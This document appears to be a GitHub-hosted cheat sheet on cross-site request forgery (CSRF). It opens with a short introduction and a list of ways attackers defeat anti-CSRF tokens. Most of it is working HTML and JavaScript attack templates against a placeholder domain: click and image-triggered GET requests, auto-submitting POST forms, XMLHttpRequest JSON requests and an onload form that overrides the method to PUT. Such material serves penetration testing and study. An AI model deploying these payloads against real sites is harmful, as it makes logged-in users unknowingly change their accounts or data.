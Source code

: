 ```yaml
---
legal-banner: true
---
```


### **Introduction**

Cross-Site Request Forgery (CSRF) is a  vulnerability where attacker trick user into performing actions on a web application where they are authenticated, without their knowledge. This can compromise the security of user data and account settings. CSRF is commonly mitigated by using tokens and modern browser security features.

### **Common Attack Scenarios:**

1.  Removing Anti-CSRF Tokens: Attacker manipulate form data to either remove or alter the anti-CSRF tokens, which are intended to prevent unauthorized actions.
2.  Spoofing Tokens: If a backend system fails to verify the integrity of a CSRF token properly, attacker may slightly modify the token to bypass security checks.
3.  Exploiting Static Token Segments: Attacker take advantage of CSRF tokens that contain predictable or unchanging parts, using these segments to fool the validation process.
4.  Reusing CSRF Tokens: Attacker may capture valid CSRF tokens from legitimate requests and reuse them in unauthorized requests to mimic authentic interactions.

### **Simple GET Request**

```html
<!-- Direct user interaction required -->
<a href="http://[DOMAIN_NAME]/endpoint?parameter=CSRFd">Click here to view!</a>
```

### **GET Request Without User Interaction**

```html
<!-- Automatically triggers when the page loads -->
<img src="http://[DOMAIN_NAME]/endpoint?parameter=CSRFd" alt="img">
```

### **Simple POST Request**

```html
<!-- User must click the submit button -->
<form action="http://[DOMAIN_NAME]/endpoint" method="POST">
  <input type="hidden" name="parameter" value="CSRFd">
  <input type="submit" value="Submit Request">
</form>
```

### **POST Request Without User Interaction**

```html
<!-- Automatically submits on page load -->
<form id="autosubmit" action="http://[DOMAIN_NAME]/endpoint" method="POST">
  <input type="hidden" name="parameter" value="CSRFd">
  <input type="submit" value="Submit Request">
</form>
<script>
  document.getElementById('autosubmit').submit();
</script>
```

### **JSON GET Request**

```html
<!-- Can be detected and blocked by modern browsers due to CORS policy -->
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://[DOMAIN_NAME]/endpoint");
  xhr.send();
</script>
```

### **JSON POST Request**

```html
<!-- Using JSON to send data in a POST request -->
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("POST", "http://[DOMAIN_NAME]/endpoint");
  xhr.setRequestHeader("Content-Type", "application/json");
  xhr.send(JSON.stringify({parameter: "CSRFd"}));
</script>
```

### **CSRF with JSON Without User Interaction**

```html
<body onload='document.forms[0].submit()'>
<form action="https://[DOMAIN_NAME]?_method=PUT" method="POST" enctype="application/json">
  <input type="hidden" name='data' value='{"parameter":"newValue"}'>
  <input type="submit" value="Send">
</form>
```